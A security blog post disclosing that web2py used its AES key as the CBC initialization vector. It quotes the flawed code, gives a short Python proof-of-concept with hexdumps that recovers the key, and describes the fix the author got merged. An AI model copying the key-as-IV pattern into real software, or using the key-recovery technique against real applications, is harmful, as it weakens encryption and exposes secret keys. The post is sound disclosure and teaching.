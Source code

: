 author: Marcin
disqus_id: 744897b1-f365-4776-9625-02c9f5a03ef8
disqus_url: http://www.tssci-security.com/archives/2010/03/21/web2py-key-as-initialization-vector/
parent: 0
post_id: 472
post_type: post
pub_date: 2013-02-21 11:00:00
public: 'yes'
slug: web2py-key-as-initialization-vector
tags:
- security
template: post.html
title: 'web2py: Key as Initialization Vector'

web2py: Key as Initialization Vector
####################################

It's not uncommon for developers to accidentally (or purposefully) commit
passwords or other information supposed to remain secret into revision
control. It's also not uncommon to see `RSA private keys indexed by Google`_,
and GitHub made it even easier to find `secrets in the code`_ with their new
search features. These same search features make it easy to grep the web
for all kinds of insecure code patterns, especially insecure cryptographic
constructions. For example, a simple search for ``AES.new(`` in Python code
repositories revealed to me the web2py_ project was using the `encryption key
as the initialization vector (IV)`_, which is the focus of this blog post.

Why is this bad? Well, in an email to the `sci.crypt mailing list`_ back
in 1996, David Wagner explains why you should never do this.

Let's take a look at the insecure construction in web2py's ``gluon.utils``
module prior to merging my pull request that fixed this issue.

.. sourcecode:: python

    from Crypto.Cipher import AES

    #..snip..

    AES_new = lambda key: AES.new(key, AES.MODE_CBC, IV=key[:16])

From an attacker's perspective (in short), if we can control the ciphertext
being fed to this function, and see the output of this function (the decrypted)
text, we can easily deduce the key used to perform the encryption. The
following code demonstrates this:

.. sourcecode:: python

    KEY = 'testtesttesttest'
    PTEXT = 'The quick brown fox jumped over the lazy dog.The quick brown fox'


    def xor(a, b):
      return bytearray(x ^ y for x, y in zip(a, b))


    def exploit():
      # ciphertext produced by web2py
      ctext = bytearray(AES_new(KEY).encrypt(PTEXT))

      # our (malformed) ciphertext we plan to feed to web2py
      mtext = ctext[:16] * 4
      mtext[16:32] = [0x0] * 16

      # if at any point we identify what the decrypted data is
      ptext = bytearray(AES_new(KEY).decrypt(str(mtext)))

      # we can easily recover the secret key used:
      print('KEY: %r' % (str(xor(ptext[:16], ptext[32:48])), ))

Running this exploit returns the following (I've included hexdumps at each
step of the way)::

    >>> exploit()
    ctext: b9561dc60a622f09f8cb49f47a30719a19ef66aa2ea6f7772a15e81b722830fbea38af2c1fdbbf6340e9707592aadfd4ce57b982597eb1e93cc311f25ea73b5d

    0x00: b9 56 1d c6 0a 62 2f 09 f8 cb 49 f4 7a 30 71 9a .V...b....I.z0q.
    0x10: 19 ef 66 aa 2e a6 f7 77 2a 15 e8 1b 72 28 30 fb ..f....w....r.0.
    0x20: ea 38 af 2c 1f db bf 63 40 e9 70 75 92 aa df d4 .8.....c..pu....
    0x30: ce 57 b9 82 59 7e b1 e9 3c c3 11 f2 5e a7 3b 5d .W..Y...........

    mtext: b9561dc60a622f09f8cb49f47a30719a00000000000000000000000000000000b9561dc60a622f09f8cb49f47a30719ab9561dc60a622f09f8cb49f47a30719a

    0x00: b9 56 1d c6 0a 62 2f 09 f8 cb 49 f4 7a 30 71 9a .V...b....I.z0q.
    0x10: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ................
    0x20: b9 56 1d c6 0a 62 2f 09 f8 cb 49 f4 7a 30 71 9a .V...b....I.z0q.
    0x30: b9 56 1d c6 0a 62 2f 09 f8 cb 49 f4 7a 30 71 9a .V...b....I.z0q.

    ptext: 54686520717569636b2062726f776e20520b27652be2f4a1c978b57c0967a34c200d165405101a171f4511061b121d54995b0b920f72351ee78e58f261226cce

    0x00: 54 68 65 20 71 75 69 63 6b 20 62 72 6f 77 6e 20 The.quick.brown.
    0x10: 52 0b 27 65 2b e2 f4 a1 c9 78 b5 7c 09 67 a3 4c R..e.....x...g.L
    0x20: 20 0d 16 54 05 10 1a 17 1f 45 11 06 1b 12 1d 54 ...T.....E.....T
    0x30: 99 5b 0b 92 0f 72 35 1e e7 8e 58 f2 61 22 6c ce .....r5...X.a.l.

    KEY: testtesttesttest


Is web2py vulnerable?
~~~~~~~~~~~~~~~~~~~~~

In short, no. The manner in which ``AES_new`` was used across web2py's
codebase did not appear to be exploitable. web2py was using this to encrypt
pickled session data in a cookie in ``secure_dumps``, and authenticated with
an HMAC (which coincidentally was also vulnerable to a `timing attack`_).
However, applications that use ``AES_new`` as a convenience function for
decrypting data provided by the user are most likely vulnerable, amongst
other vulnerabilities that tend to crop up when rolling your own crypto.

If you've been keeping up with web2py's master, my `merged pull request`_
patches the ``AES_new`` function to return a random IV anytime it is invoked
and utilizes the more secure, constant-time ``compare`` function to validate
HMAC's.

.. _RSA private keys indexed by Google: https://www.google.com/search?q=intext:%22-----BEGIN+RSA+PRIVATE+KEY-----%22+filetype%3Apem
.. _secrets in the code: https://github.com/blog/1390-secrets-in-the-code
.. _web2py: https://github.com/web2py/web2py
.. _encryption key as the initialization vector (IV): https://github.com/web2py/web2py/pull/58
.. _sci.crypt mailing list: http://www.gnu.org/software/shishi/manual/html_node/Key-as-initialization-vector.html
.. _timing attack: http://codahale.com/a-lesson-in-timing-attacks/
.. _merged pull request: https://github.com/web2py/web2py/pull/58

